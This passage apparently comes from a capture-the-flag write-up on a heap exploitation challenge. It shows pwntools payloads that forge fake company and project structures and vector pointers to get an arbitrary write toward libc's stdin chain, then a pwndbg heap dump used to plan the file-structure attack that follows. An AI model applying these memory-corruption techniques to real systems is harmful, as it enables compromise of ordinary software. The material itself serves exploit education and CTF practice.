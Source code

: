 ```python
payload = flat(
    0x0, 0x0,
    0x0, 0x0,
    0x0, 0x0,
    heap_base + 0x163c0, 0x0, 
)
p.sendline(payload)
```

In the fake company, we need to fake the projects vector, and make it point to a
fake project. Then in the fake project, we can fake the workers vector, making
it point to our desired write region, so that when the worker is moved into this
project, the program will think that the vector data is at our write address,
and hence write the worker pointer to +0x8 of the address we supplied. Also make
sure that the vector capacity is big enough to hold the new worker.

```python
payload = flat(
    0x0, 0x0,
    0x0, 0x0,

    # start of fake company
    0xdeadbeef, 0x8,
    0x0, 0x0,
    0x1337, 0x0,
    heap_base + 0x16450, heap_base + 0x16458, # fake vector
    heap_base + 0x16458, 0x0,

    # start of fake project
    heap_base + 0x16420, 0x2,
    0x6161, 0x0, # project name is aa
    # stdin->chain - 0x8 (because when appending it will be 0x8 ahead)
    0x0, libc_base + 0x203948, 
    libc_base + 0x203948, libc_base + 0x203950,

    # fake vector data - points to fake project
    heap_base + 0x16410,
)
payload += b"a"*(0x410 - len(payload))
p.sendline(payload)
```

Now we need to choose a john worker to edit, so that we can write our fake file
into him. This john should eventually be consolidated into unsorted bin so that
we have a large enough region to control for both the fake file and the
`_wide_data` struct. Because of the way the heap is laid out, some random tcache
chunks are allocated between our johns, so we need to find a contiguous region
of johns that we can free to make the unsorted chunk.

Looking at the global `workers` vector, we can find a region of johns here:

```
pwndbg> x/32gx  0x5555555896e0
0x5555555896e0: 0x0000555555588820      0x0000555555588860
0x5555555896f0: 0x00005555555888c0      0x0000555555588930
0x555555589700: 0x0000555555588970      0x0000555555588a50
0x555555589710: 0x0000555555588a90      0x0000555555588ad0
0x555555589720: 0x0000555555588b10      0x0000555555588c70
0x555555589730: 0x0000555555588cf0      0x0000555555588d30
0x555555589740: 0x0000555555588d70      0x0000555555588db0
0x555555589750: 0x0000555555588df0      0x0000555555588e30
0x555555589760: 0x0000555555588e70      0x00005555555890d0
0x555555589770: 0x0000555555589110      0x0000555555589150
0x555555589780: 0x0000555555589190      0x00005555555891d0

                john22 here
```